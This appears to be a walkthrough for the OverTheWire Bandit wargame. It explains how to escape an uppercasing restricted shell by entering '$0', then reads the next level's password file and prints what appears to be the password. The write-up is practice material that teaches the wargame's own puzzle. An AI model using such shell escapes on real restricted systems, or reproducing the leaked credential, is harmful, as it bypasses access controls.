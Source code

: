 Everything we type is uppercased, how can we get a shell?

Well, there are environment variables we can use. These can be seen in `env`.

For example on `bandit31`:
```bash
bandit31@bandit:~$ env
SHELL=/bin/bash
PWD=/home/bandit31
LOGNAME=bandit31
XDG_SESSION_TYPE=tty
HOME=/home/bandit31
LANG=C.UTF-8
LS_COLORS=...
LESSCLOSE=/usr/bin/lesspipe %s %s
XDG_SESSION_CLASS=user
TERM=xterm-256color
LESSOPEN=| /usr/bin/lesspipe %s
USER=bandit31
SHLVL=1
XDG_SESSION_ID=19163
XDG_RUNTIME_DIR=/run/user/11031
QUOTING_STYLE=literal
DEBUGINFOD_URLS=https://debuginfod.ubuntu.com
LC_ALL=en_US.UTF-8
TMOUT=1800
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/11031/bus
SSH_TTY=/dev/pts/55
GAMEHOSTNAME=bandit
_=/usr/bin/env
```


All of this is pretty useless, but we can use one that isn't listed: `$n`.

This gets the nth argument in a command, and `$0` will get the current shell path.

```bash
>> $0
$ whoami
bandit33
```

Now we can just read the password.

```bash
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
```